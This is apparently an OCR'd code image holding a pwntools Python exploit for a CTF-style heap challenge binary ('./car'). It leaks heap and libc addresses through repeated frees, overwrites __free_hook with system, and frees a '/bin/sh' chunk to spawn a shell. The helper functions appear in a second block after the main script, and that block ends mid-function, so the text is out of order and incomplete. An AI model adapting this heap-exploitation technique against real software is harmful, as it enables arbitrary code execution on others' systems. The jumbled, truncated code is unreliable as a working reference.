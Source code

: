 ```python
	cmd(3)
def show(idx):
	cmd(3)
	p.sendlineafter(": ",str(idx))
def leak(addr):
	edit(3,0x28,p64(3)*2+p64(0x100)+p64(addr))
	show(0)
	p.readuntil("ti: ")
	data=p.readuntil("\n===")[:-4]
	if len(data)==0:
		return '\0'
	else:
		#print data
		return data
#context.log_level='debug'
context.arch='amd64'
libc=ELF('./libc.so')
#p=remote('0.0.0.0',1024)
p=process("./car",env={"LD_PRELOAD":"./libc.so"})
p.sendlineafter(": ","n132")
p.sendlineafter(": ","n132")
add(0,0x88)
add(1,0x38)
for x in range(2):
	free(0)
show(0)
p.readuntil("ti: ")
heap=u64(p.readline()[:-1]+'\0\0')-0x6d0
log.warning(hex(heap))
for x in range(6):
	free(0)
show(0)
p.readuntil("ti: ")
base=u64(p.readline()[:-1]+'\0\0')
base=base-0x70-libc.sym['__malloc_hook']
log.warning(hex(base))
libc.address=base
edit(0,0x88,p64(libc.sym['__free_hook']-8))
add(2,0x88)
free(1)

#gdb.attach(p)
add(3,0x88,"/bin/sh\x00"+p64(libc.sym["system"]))
free(3)
p.interactive()
```

fmtstr:
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(idx,size,c='A',tp=1,color=1):
	cmd(1)
	cmd(tp)
	cmd(color)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
	p.sendlineafter(": ",str(idx))
def free(idx):
	cmd(4)
	p.sendlineafter(": ",str(idx))
def edit(idx,size,c='A'):
	cmd(2)
```